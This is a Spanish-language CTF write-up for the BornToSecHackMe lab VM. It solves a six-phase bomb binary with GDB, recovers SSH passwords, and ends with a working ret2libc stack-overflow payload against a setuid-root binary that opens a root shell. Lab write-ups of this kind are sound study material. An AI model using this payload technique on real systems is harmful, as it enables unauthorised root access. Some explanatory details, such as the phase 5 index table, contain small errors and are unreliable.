-rwxr-x--- 1 laurie   laurie   158 Oct  8  2015 README
-rw------- 1 laurie   laurie   606 Oct 13  2015 .viminfo
```

Leemos el archivo `READNE` y ejecutamos `bomb`  que nos da las pistas de lo que tenemos que hacer:
```bash
laurie@BornToSecHackMe:~$ ./bomb 
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!
```
### **Instrucciones de bomb:**
- El binario `bomb` se compone de 6 etapas
- Cada etapa requiere de un password para acceder a la siguiente fase
- Si ponemos un password mal, hará saltar la bomba.

```bash
laurie@BornToSecHackMe:~$ cat README 
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```
### **Pistas del README:**

Las letras y números del README son pistas parciales que se confirman tras
analizar cada etapa del binario con GDB:

- `P`  → la etapa 1 acepta una frase que empieza por `P`
- `2`  → la etapa 2 acepta una secuencia que contiene el número `2`
- `b`  → la etapa 3 tiene una solución que contiene la letra `b`
- `o`  → la etapa 5 tiene una solución que contiene la letra `o`
- `4`  → la etapa 4 acepta un número relacionado con el `4`


**Recordatorio:**

El subject dice:

`"For the part related to a (bin) bomb: If the password found is 123456. The password to use is 123546."`.

Es decir hay que intercambiar los dos últimos caracteres de la contraseña final.

## 9. Análisis del binario y Passwords exploit

Desensamblamos con GDB y listamos las funciones:
```bash
laurie@BornToSecHackMe:~$ gdb ./bomb
(gdb) info functions 
All defined functions:

File bomb.c:
int main(int, char **);

Non-debugging symbols:
...
0x08048b20  phase_1
0x08048b48  phase_2
0x08048b98  phase_3
0x08048ca0  func4
0x08048ce0  phase_4
0x08048d2c  phase_5
0x08048d98  phase_6
0x08048e94  fun7
0x08048ee8  secret_phase
...
```

1. Comenzamos desamblando la función `phase_1` y encontraos con en la dirección `0x80497c0` se encuantra un string que coincide con el inicio de la prmera pista `"Public speaking is very easy."`: 

```asm
(gdb) disas phase_1
Dump of assembler code for function phase_1:
   0x08048b20 <+0>:     push   ebp
   0x08048b21 <+1>:	    mov    ebp,esp
   0x08048b23 <+3>:	    sub    esp,0x8
   0x08048b26 <+6>:	    mov    eax,DWORD PTR [ebp+0x8]
   0x08048b29 <+9>:	    add    esp,0xfffffff8
   0x08048b2c <+12>:	push   0x80497c0    ←   0x80497c0:	 "Public speaking is very easy."
   0x08048b31 <+17>:	push   eax
   0x08048b32 <+18>:	call   0x8049030 <strings_not_equal>
   0x08048b37 <+23>:	add    esp,0x10
   0x08048b3a <+26>:	test   eax,eax
   0x08048b3c <+28>:	je     0x8048b43 <phase_1+35>
   0x08048b3e <+30>:	call   0x80494fc <explode_bomb>
   0x08048b43 <+35>:	mov    esp,ebp
   0x08048b45 <+37>:	pop    ebp
   0x08048b46 <+38>:	ret    
End of assembler dump.

(gdb) x/s 0x80497c0
0x80497c0:	 "Public speaking is very easy."
```
### **`Password Phase 1: Public speaking is very easy.`**

2. El análisis del desensamblado de la función `phase_2` nos dice el tipo de retorno es un `int ()`:
- lee 6 números.
- Verfica que el primero debe ser 1
- Cada siguiente es el anterior multiplicado por (i+1)

```asm
(gdb) disas phase_2
Dump of assembler code for function phase_2:
   0x08048b48 <+0>:	    push   ebp
   0x08048b49 <+1>:	    mov    ebp,esp
   0x08048b4b <+3>:	    sub    esp,0x20
   0x08048b4e <+6>:	    push   esi
   0x08048b4f <+7>:	    push   ebx
   0x08048b50 <+8>:	    mov    edx,DWORD PTR [ebp+0x8]
   0x08048b53 <+11>:	add    esp,0xfffffff8
   0x08048b56 <+14>:	lea    eax,[ebp-0x18]
   0x08048b59 <+17>:	push   eax
   0x08048b5a <+18>:	push   edx
   0x08048b5b <+19>:	call   0x8048fd8 <read_six_numbers>
   0x08048b60 <+24>:	add    esp,0x10
   0x08048b63 <+27>:	cmp    DWORD PTR [ebp-0x18],0x1
   0x08048b67 <+31>:	je     0x8048b6e <phase_2+38>
   0x08048b69 <+33>:	call   0x80494fc <explode_bomb>
   0x08048b6e <+38>:	mov    ebx,0x1
   0x08048b73 <+43>:	lea    esi,[ebp-0x18]
   0x08048b76 <+46>:	lea    eax,[ebx+0x1]
   0x08048b79 <+49>:	imul   eax,DWORD PTR [esi+ebx*4-0x4]
   0x08048b7e <+54>:	cmp    DWORD PTR [esi+ebx*4],eax
   0x08048b81 <+57>:	je     0x8048b88 <phase_2+64>
   0x08048b83 <+59>:	call   0x80494fc <explode_bomb>
   0x08048b88 <+64>:	inc    ebx
   0x08048b89 <+65>:	cmp    ebx,0x5
   0x08048b8c <+68>:	jle    0x8048b76 <phase_2+46>
   0x08048b8e <+70>:	lea    esp,[ebp-0x28]
   0x08048b91 <+73>:	pop    ebx
   0x08048b92 <+74>:	pop    esi
   0x08048b93 <+75>:	mov    esp,ebp
   0x08048b95 <+77>:	pop    ebp
   0x08048b96 <+78>:	ret    
End of assembler dump.
```
```asm
(gdb) ptype phase_2
type = int ()
```
### **Líneas 0 - 78:**
```text
1.  <+0>: Guarda en lo alto del stack el valor de `EBP` (cpu) `[esp + 0x00]`. El `ESP` se desplaza 4 bytes hacia abajo.
2.  <+1>: Asigna el nuevo `ESP` a `EBP` para la función `phase_2`.
3.  <+3>: Reserva (desplaza) `32 bytes` (0x20) en el stack de `phase_2()`.
4.  <+6>: Guarda en el stack el registro `ESI` — el compilador lo preserva porque lo usará internamente.
5.  <+7>: Guarda en el stack el registro `EBX` — ídem.
6.  <+8>: Carga en `EDX` el argumento de `phase_2()` — el string introducido por el usuario desde `[ebp+0x8]`.
7.  <+11>: Ajusta el stack para pasar los argumentos a `read_six_numbers()`.
8.  <+14>: Calcula la dirección de `[ebp-0x18]` — el array local de 6 enteros — y la carga en `EAX`.
9.  <+17>: Empuja la dirección del array como argumento de `read_six_numbers()`.
10. <+18>: Empuja el string del usuario como argumento de `read_six_numbers()`.
11. <+19>: Llama a `read_six_numbers(input, array)` — parsea el string del usuario y rellena el array con 6 enteros.
12. <+24>: Restaura el stack.
13. <+27>: Compara el primer elemento del array `[ebp-0x18]` con `1`.
14. <+31>: `je` — si el primer número es `1` continúa. Si no salta a `<+33>`.
15. <+33>: Llama a `explode_bomb()` — el primer número debe ser `1`.
16. <+38>: Inicializa el contador `EBX` a `1` — inicio del bucle.
17. <+43>: Carga en `ESI` la dirección base del array.
18. <+46>: Calcula `EBX + 1` en `EAX` — el multiplicador de la iteración actual.
19. <+49>: Multiplica `EAX` por el elemento anterior del array `[esi+ebx*4-0x4]` — calcula el valor esperado.
20. <+54>: Compara el elemento actual del array `[esi+ebx*4]` con el valor esperado.
21. <+57>: `je` — si son iguales continúa. Si no salta a `<+59>`.
22. <+59>: Llama a `explode_bomb()` — el número no es el esperado.
23. <+64>: Incrementa el contador `EBX`.
24. <+65>: Compara `EBX` con `5`.
25. <+68>: `jle` — si `EBX <= 5` vuelve a `<+46>` para la siguiente iteración.
26. <+70>: Restaura `ESP`.
27. <+73>: Restaura `EBX`.
28. <+74>: Restaura `ESI`.
29. <+75>: Restaura `ESP` desde `EBP`.
30. <+77>: Restaura `EBP`.
31. <+78>: `ret` — retorna el control al caller.
```

El bucle verifica que cada número sea el anterior multiplicado por (i+1):
```bash
array[0] = 1
array[1] = 1 * 2 = 2
array[2] = 2 * 3 = 6
array[3] = 6 * 4 = 24
array[4] = 24 * 5 = 120
array[5] = 120 * 6 = 720
```

Coincide con la pista 2 del README.
### **`Password Phase 2: 1 2 6 24 120 720`**

3. En el análisis de la función `phase_3` el formato `"%d %c %d"` nos dice que la funciñon espera 3 valores: **número, carácter, número**.
```
(gdb) x/s 0x80497de
0x80497de:	 "%d %c %d"
```

 - El switch/case tiene 8 opciones (0-7). Buscando la **pista b del README** — hay tres casos con bl=0x62 que es b en ASCII:
```asm
0x08048c16 <+126>:	mov    bl,0x62
0x08048c76 <+222>:	mov    bl,0x62
0x08048c00 <+104>:	mov    bl,0x62
```
 - hay una tabla de saltos en la orden `<+62>`
 - `eax` es el primer número que se introuce.
 - Cada caso del switch asigna un valor a `bl` (el carácter) y compara el tercer número con un valor fijo.
```asm
0x08048bd6 <+62>:	jmp    DWORD PTR [eax*4+0x80497e8]
```
- Busca qué hay en la tabla de saltos en la dirección `0x80497e8`:
```
(gdb) x/8wx 0x80497e8
0x80497e8:	0x08048be0	0x08048c00	0x08048c16	0x08048c28
0x80497f8:	0x08048c40	0x08048c52	0x08048c64	0x08048c76
```
- Con esto ahora tenemos la tabla completa. Cada dirección corresponde a un caso:
```bash
case 0 → 0x08048be0 → bl=0x71('q'), número=0x309=777
case 1 → 0x08048c00 → bl=0x62('b'), número=0xd6=214
case 2 → 0x08048c16 → bl=0x62('b'), número=0x2f3=755
case 3 → 0x08048c28 → bl=0x6b('k'), número=0xfb=251
case 4 → 0x08048c40 → bl=0x6f('o'), número=0xa0=160
case 5 → 0x08048c52 → bl=0x74('t'), número=0x1ca=458
case 6 → 0x08048c64 → bl=0x76('v'), número=0x30c=780
case 7 → 0x08048c76 → bl=0x62('b'), número=0x20c=524
```
- Lo leemos directamente del ASM — por ejemplo case 1:
```
<+104>: mov bl,0x62         ← 0x62 = 'b' en ASCII
<+106>: cmp [ebp-0x4],0xd6  ← tercer número debe ser 0xd6 = 214
```

Coincide con la pista 3 del README cualquier caso con b funciona.
### **`Password Phase 3: 1 b 214`**

4. En el análisis de la función `phase_4`, vemos que lee un único número con `sscanf` usando el formato `"%d"` y lo pasa a `func4`. El resultado debe ser `0x37 = 55`:

```bash
(gdb) x/s 0x8049808
0x8049808:	 "%d"
```

```asm
<+61>: cmp eax, 0x37     ← func4(n) debe devolver 55
<+64>: je  phase_4+71    ← si no, explota
```

`func4` es una función recursiva — se llama a sí misma con `n-1` y `n-2`
y suma los resultados. Es la **secuencia de Fibonacci**:

```asm
<+11>: cmp ebx, 0x1
<+14>: jle func4+48      ← caso base: si n <= 1 devuelve 1
<+23>: call func4        ← func4(n-1)
<+37>: call func4        ← func4(n-2)
<+42>: add eax, esi      ← devuelve func4(n-1) + func4(n-2)
```

Calculamos la secuencia hasta encontrar el índice que devuelve `55`:

```
func4(1)  = 1
func4(2)  = 2
func4(3)  = 3
func4(4)  = 5
func4(5)  = 8
func4(6)  = 13
func4(7)  = 21
func4(8)  = 34
func4(9)  = 55  ← coincide con 0x37
```

La pista del README es `4` — hace referencia al número `4` que aparece
en el índice `9` de la secuencia (el cuarto primo de Fibonacci mayor que 1).

### **`Password Phase 4: 9`**

5. El análisis de la función `phase_5` verifica que el string introducido tenga exactamente **6 caracteres**:

```asm
<+23>: cmp eax, 0x6    ← longitud debe ser 6
<+28>: call explode_bomb
```

Luego construye un nuevo string de 6 caracteres usando cada carácter del input como índice en el array `array.123`:

```asm
<+46>: and al, 0xf          ← coge los últimos 4 bits del carácter
<+51>: mov al, [eax+esi*1]  ← usa esos 4 bits como índice en array.123
```

El array es:
```
array.123 = "isrveawhobpnutfg"
índice:      0123456789abcdef
```

El resultado debe ser igual a `"giants"`:
```
g → índice 15 (0xf) → necesitamos un carácter cuyo último nibble sea f → 'o' (0x6f) u 'O' (0x4f)
i → índice  0 (0x0) → 'p' (0x70) o 'P' (0x50)
a → índice  5 (0x5) → 'e' (0x65) o 'E' (0x45)
n → índice 13 (0xd) → 'm' (0x6d) o 'M' (0x4d)  (0xd = 13)
t → índice 11 (0xb) → 'k' (0x6b) o 'K' (0x4b)  (0xb = 11)
s → índice  2 (0x2) → 'r' (0x72) o 'R' (0x52)
```

La pista del README es `o` — corresponde al primer carácter con índice `f`.
Una solución válida es `opekmq`.

### **`Password Phase 5: opekmq`**

6. El análisis de la función `phase_6` es el más complejo. Lee **6 números** con `read_six_numbers` y aplica tres verificaciones:

**Verificación 1 — valores entre 1 y 6:**
```asm
<+46>: dec eax
<+47>: cmp eax, 0x5
<+50>: jbe phase_6+57    ← si (valor-1) <= 5 continúa, es decir valor <= 6
<+52>: call explode_bomb
```

**Verificación 2 — sin duplicados:**
```asm
<+84>: cmp eax, [esi+ebx*4]   ← compara cada número con los siguientes
<+87>: jne phase_6+94         ← si son iguales explota
<+89>: call explode_bomb
```

**Verificación 3 — linked list ordenada:**

La dirección `0x804b26c` apunta a una **linked list** de 6 nodos. Cada nodo
tiene un valor y un puntero al siguiente. Los números introducidos se usan
como índices para reordenar los nodos de la lista:

```asm
<+120>: mov esi, [ebp-0x34]   ← puntero al primer nodo
<+152>: mov esi, [esi+0x8]    ← avanza al siguiente nodo
```

Una vez reordenada la lista, verifica que los valores estén en **orden
descendente**:

```asm
<+221>: cmp eax, [edx]        ← nodo actual debe ser >= nodo siguiente
<+223>: jge phase_6+230
<+225>: call explode_bomb
```

Necesitamos conocer los valores de cada nodo. Los inspeccionamos en GDB:

```bash
(gdb) x/24wx 0x804b26c
0x804b26c <node1>:	0x000000fd	0x00000001	0x0804b260	0x000003e9
0x804b27c <n48+4>:	0x00000000	0x00000000	0x0000002f	0x00000000
0x804b28c <n46+8>:	0x00000000	0x00000014	0x00000000	0x00000000
0x804b29c <n42>:	0x00000007	0x00000000	0x00000000	0x00000023
0x804b2ac <n44+4>:	0x00000000	0x00000000	0x00000063	0x00000000
0x804b2bc <n47+8>:	0x00000000	0x00000001	0x00000000	0x00000000
```
El formato de la memoria no es claro con ese comando. Necesitamos ver los nodos correctamente — cada nodo tiene valor (4 bytes) + índice (4 bytes) + siguiente (4 bytes):

```bash
(gdb) x/3wx 0x804b26c
0x804b26c <node1>:	0x000000fd	0x00000001	0x0804b260
(gdb) x/3wx 0x804b260
0x804b260 <node2>:	0x000002d5	0x00000002	0x0804b254
(gdb) x/3wx 0x804b254
0x804b254 <node3>:	0x0000012d	0x00000003	0x0804b248
(gdb)  x/3wx 0x804b248
0x804b248 <node4>:	0x000003e5	0x00000004	0x0804b23c
(gdb)  x/3wx 0x804b23c
0x804b23c <node5>:	0x000000d4	0x00000005	0x0804b230
(gdb) x/3wx 0x804b230
0x804b230 <node6>:	0x000001b0	0x00000006	0x00000000
```

Con esta info ya tenemos todos los nodos:
```
node1: valor=0x0fd=253,  índice=1
node2: valor=0x2d5=725,  índice=2
node3: valor=0x12d=301,  índice=3
node4: valor=0x3e5=997,  índice=4
node5: valor=0x0d4=212,  índice=5
node6: valor=0x1b0=432,  índice=6
```

Para que la lista quede en **orden descendente** necesitamos ordenar por valor de mayor a menor:
```
997  → node4 → índice 4
725  → node2 → índice 2
432  → node6 → índice 6
301  → node3 → índice 3
253  → node1 → índice 1
212  → node5 → índice 5
```

### **`Password Phase 6: 4 2 6 3 1 5`**

## 10. Ejecutamos el binario bomb

Ahora que disponemos del password de todas las etapas, ejecutamos el binario y comprobamos:
```bash
laurie@BornToSecHackMe:~$ ./bomb 
Welcome this is my little bomb !!!! You have 6 stages with
only one life good luck !! Have a nice day!

Public speaking is very easy.
Phase 1 defused. How about the next one?
1 2 6 24 120 720
That's number 2.  Keep going!
1 b 214
Halfway there!
9
So you got that one.  Try this one.
opekmq
Good work!  On to the next...
4 2 6 3 1 5
Congratulations! You've defused the bomb!
```

## 11. Acceso SSH como thor

Hemos comprobado que las contraseñas de las etapas son correctas.

La contraseña de `thor` se forma concatenando todas sin espacios y aplicando la regla del subject — intercambiar los dos últimos caracteres:

```
Phase 1: Publicspeakingisveryeasy.
Phase 2: 12624120720
Phase 3: 1b214
Phase 4: 9
Phase 5: opekmq
Phase 6: 426315
```

Concatenado: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`
```bash
laurie@BornToSecHackMe:~$ ssh thor@192.168.0.30
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
thor@192.168.0.30's password:
thor@BornToSecHackMe:~$
```

Una vez que hemos iniciado sesión como Thor y listamos el directorio principal encontramos dos archivos — `READEM` y `turtle`:
```bash
thor@BornToSecHackMe:~$ ls -la
total 41
drwxr-x--- 1 thor     thor    60 Oct 15  2015 .
drwxrwx--x 1 www-data root   100 Oct 13  2015 ..
-rwxr-x--- 1 thor     thor     6 Apr 24 01:58 .bash_history
-rwxr-x--- 1 thor     thor   220 Oct  8  2015 .bash_logout
-rwxr-x--- 1 thor     thor  3489 Oct 13  2015 .bashrc
drwx------ 2 thor     thor    43 Oct 15  2015 .cache
-rwxr-x--- 1 thor     thor   675 Oct  8  2015 .profile
-rwxr-x--- 1 thor     thor    69 Oct  8  2015 README
-rwxr-x--- 1 thor     thor 31523 Oct  8  2015 turtle
```
### README:
```bash
thor@BornToSecHackMe:~$ cat README
Finish this challenge and use the result as password for 'zaz' user.
```

### turtle:
```bash
thor@BornToSecHackMe:~$ cat turtle
Tourne gauche de 90 degrees
Avance 50 spaces
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
Tourne gauche de 1 degrees
Avance 1 spaces
[...]
Avance 100 spaces
Recule 200 spaces
Avance 100 spaces
Tourne droite de 90 degrees
Avance 100 spaces
Tourne droite de 90 degrees
Avance 100 spaces
Recule 200 spaces

Can you digest the message? :)
```

El nombre "turtle" hace referencia al módulo `turtle` de Python. Este módulo permite dibujar figuras mediante instrucciones dadas en un programa Python.

## 12. Python Draw

Necesitamos convertir las instrucciones dadas a código Python y ejecutarlo.

El archivo `turtle` necesita ejecutarse en nuestro host porque la VM no tiene entorno gráfico. Descarga el archivo primero, creamos el programa en python y lo ejecutamos.

En nuestro host:
```bash
scp thor@192.168.0.30:~/turtle /tmp/turtle.txt
```

```bash
scp thor@192.168.0.30:~/turtle /tmp/turtle.txt
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
thor@192.168.0.30's password: 
turtle                                                      100%   31KB  18.3MB/s   00:00    
```

Creamos `draw.py`:
```bash
cat > /tmp/draw.py << 'EOF'
import turtle
import re

t = turtle.Turtle()
t.speed(0)
screen = turtle.Screen()

with open('/tmp/turtle.txt', 'r') as f:
    for line in f:
        line = line.strip()
        
        m = re.match(r'Avance (\d+) spaces', line)
        if m:
            t.forward(int(m.group(1)))
            continue
        
        m = re.match(r'Recule (\d+) spaces', line)
        if m:
            t.backward(int(m.group(1)))
            continue
        
        m = re.match(r'Tourne gauche de (\d+) degrees', line)
        if m:
            t.left(int(m.group(1)))
            continue
        
        m = re.match(r'Tourne droite de (\d+) degrees', line)
        if m:
            t.right(int(m.group(1)))
            continue

turtle.done()
EOF
```

Y ejecutamos:
```bash
python3 /tmp/draw.py
```

En la imagen se ven las letras `SLASH` dibujadas. Ahora aplicamos `MD5`:



```bash
thor@BornToSecHackMe:~$ echo -n "SLASH" | md5sum
646da671ca01bb5d84dbb5fb2238dc8e  -
```

Esta es la contraseña del usuario `zaz`
```text
Usuario: zaz
Pasword: 646da671ca01bb5d84dbb5fb2238dc8e
```

## 13. Acceso SSH como zaz

Accedemos con el usuairo `zaz` y realizamos un listado a ver que encontamos:
```bash
thor@BornToSecHackMe:~$ ssh zaz@192.168.0.30
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
zaz@192.168.0.30's password: 
zaz@BornToSecHackMe:~$ ls -la
total 12
drwxr-x--- 4 zaz      zaz   147 Oct 15  2015 .
drwxrwx--x 1 www-data root  100 Oct 13  2015 ..
-rwxr-x--- 1 zaz      zaz     1 Oct 15  2015 .bash_history
-rwxr-x--- 1 zaz      zaz   220 Oct  8  2015 .bash_logout
-rwxr-x--- 1 zaz      zaz  3489 Oct 13  2015 .bashrc
drwx------ 2 zaz      zaz    43 Oct 14  2015 .cache
-rwsr-s--- 1 root     zaz  4880 Oct  8  2015 exploit_me        ←  Ejecutable como root
drwxr-x--- 3 zaz      zaz   107 Oct  8  2015 mail
-rwxr-x--- 1 zaz      zaz   675 Oct  8  2015 .profile
-rwxr-x--- 1 zaz      zaz  1342 Oct 15  2015 .viminfo
```

Una rápida inspección del hmoe nos muestra un archivo binario llamado `exploit_me` que se ejecutará como usuario root.

Si logramos generar una consola usando este binario, tendremos permisos de root.

En primer lugar, listamos todas las funciones usando GDB y vemos que solo hay una función -> `main()`

```bash
(gdb) info functions 
All defined functions:

[...]
0x080483f4  main
[...]
```

Desensamblamos `main()`:

```asm
(gdb) disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	    push   ebp
   0x080483f5 <+1>:	    mov    ebp,esp
   0x080483f7 <+3>:	    and    esp,0xfffffff0
   0x080483fa <+6>:	    sub    esp,0x90
   0x08048400 <+12>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    eax,0x1
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048410 <+28>:	add    eax,0x4
   0x08048413 <+31>:	mov    eax,DWORD PTR [eax]
   0x08048415 <+33>:	mov    DWORD PTR [esp+0x4],eax
   0x08048419 <+37>:	lea    eax,[esp+0x10]
   0x0804841d <+41>:	mov    DWORD PTR [esp],eax
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    eax,[esp+0x10]
   0x08048429 <+53>:	mov    DWORD PTR [esp],eax
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    eax,0x0
   0x08048436 <+66>:	leave  
   0x08048437 <+67>:	ret    
End of assembler dump.
```

- `<+6>`: Reserva `0x90` (144) bytes en el stack — el buffer `dest` tiene **128 bytes** útiles (144 - 16 bytes de alineación).
- `<+12>` y `<+16>`: Comprueba que `argc > 1` — si no hay argumento sale con `return 1`.
- `<+28>` a `<+31>`: Carga `argv[1]` — el argumento que pasamos al binario.
- `<+44>`: Llama a `strcpy(dest, argv[1])` — copia `argv[1]` en el buffer **sin comprobar
  el tamaño**. Si el argumento supera los 128 bytes desbordamos el buffer y
  sobrescribimos el `EIP`.
- `<+56>`: Llama a `puts(dest)` — imprime el contenido del buffer.

El vector de ataque es un **Stack Buffer Overflow** clásico mediante `Ret2Libc` —
el mismo que usamos en el `level07` de OverRide. Necesitamos:

1. Localizar las direcciones de `system()`, `exit()` y `/bin/sh` en la libc.
2. Calcular el offset exacto hasta el `EIP`.
3. Construir el payload: `padding + system() + exit() + /bin/sh`.

## 14. Calcular el offset

Localizamos las direcciones:
```bash
(gdb) b main
Breakpoint 1 at 0x80483f7
(gdb) r test
Starting program: /home/zaz/exploit_me test

Breakpoint 1, 0x080483f7 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) info proc map
process 4317
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
	 0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
	0xb7e2b000 0xb7e2c000     0x1000        0x0 
	0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7fd2000 0xb7fd5000     0x3000        0x0 
	0xb7fdb000 0xb7fdd000     0x2000        0x0 
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
(gdb) 
```

Tenemos `system` y `exit`. Ahora buscamos `/bin/sh` en la libc:
```bash
(gdb) find 0xb7e2c000,0xb7fd2000,"/bin/sh"
0xb7f8cc58
1 pattern found.
```

Tenemos todo. Ahora calculamos el offset hasta el EIP -> el buffer es de 128 bytes más 4 bytes de EBP guardado = 140 bytes de padding:
```bash
(gdb) r $(python -c "print 'A' * 140 + 'BBBB'")
```

Si `EIP` vale `0x42424242` el offset es correcto:
```bash
(gdb) r $(python -c "print 'A' * 140 + 'BBBB'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/zaz/exploit_me $(python -c "print 'A' * 140 + 'BBBB'")

Breakpoint 1, 0x080483f7 in main ()
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) 
```

`EIP` vale `0x42424242` -> el offset de 140 bytes es correcto.

## 15. Construir el payload

Construimos el payload con las direcciones que tenemos:
```text
system():  0xb7e6b060
exit():    0xb7e5ebe0
/bin/sh:   0xb7f8cc58
```
**padding (140 bytes) + system() + exit() + /bin/sh**

Y ejecutamos:

```bash
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c "print 'A' * 140 + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7'")
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# whoami
root
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
# cat /etc/passwd | grep root
root:x:0:0:root:/root:/bin/bash
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
```

## 16. Conclusión del Writeup 1

El writeup 1 sigue una cadena de explotación en 14 pasos que va desde el
descubrimiento de la IP hasta la obtención de root:

```
Reconocimiento → Foro → Webmail → phpMyAdmin → Webshell →
www-data → FTP → laurie → Bomb → thor → Turtle → zaz → ROOT
```

Cada paso aprovecha una vulnerabilidad o información filtrada por el paso anterior, credenciales expuestas en logs, contraseñas en archivos del sistema, inyección SQL para crear un webshell, y finalmente un Stack Buffer Overflow con Ret2LibC para escalar a root.

